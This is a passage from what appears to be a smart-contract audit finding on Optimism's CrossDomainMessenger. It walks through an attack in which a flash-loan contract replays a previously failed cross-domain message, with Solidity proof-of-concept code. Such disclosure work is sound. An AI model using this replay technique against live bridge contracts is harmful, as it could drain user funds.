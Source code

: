 https://github.com/sherlock-audit/2023-03-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L360

 7. Then, it calls the function `FlashloanProvider.flashLoan`.
 ```solidity
function flashLoan(
        address receiverAddress,
        address asset,
        uint256 amount
    ) public {
        // tracking the balance
        uint256 balanceBefore = IERC20(asset).balanceOf(address(this));

        // transferring the loan to the receiver
        IERC20(asset).transfer(receiverAddress, amount);

        // providing the message that will be called by L1CrossDomainMessenger
        bytes memory message = abi.encodeWithSignature(
            "executeOperation(address,uint256,uint256)",
            asset,
            amount,
            premium
        );

        // replay the message again.
        // note that this message once was sent by Bob from L2, and it was failed due to lack of fund.
        // but, this time it will not be failed, because the fund is already transferred to the receiver
        iL1CrossDomainMessenger.relayMessage(
            nonce,
            BobAddress,
            receiverAddress,
            0,
            0,
            message
        );

        // tracking the balance
        uint256 balanceAfter = IERC20(asset).balanceOf(address(this));

        require(
            balanceAfter - balanceBefore >= premium,
            "the flash loan is not repaid"
        );
    }
```

 8. In the function `FlashloanProvider.flashLoan`, it transfers the loan amount to `AliceContract`.
 9. Then it replays the failed message sent in step 3. This time, the failed message will be successful, because the required fund is already transferred to `AliceContract`.
```solidity
// providing the message that will be called by L1CrossDomainMessenger
        bytes memory message = abi.encodeWithSignature(
            "executeOperation(address,uint256,uint256)",
            asset,
            amount,
            premium
        );

        // replay the message again.
        // note that this message once was sent by Bob from L2, and it was failed due to lack of fund.
        // but, this time it will not be failed, because the fund is already transferred to the receiver
```
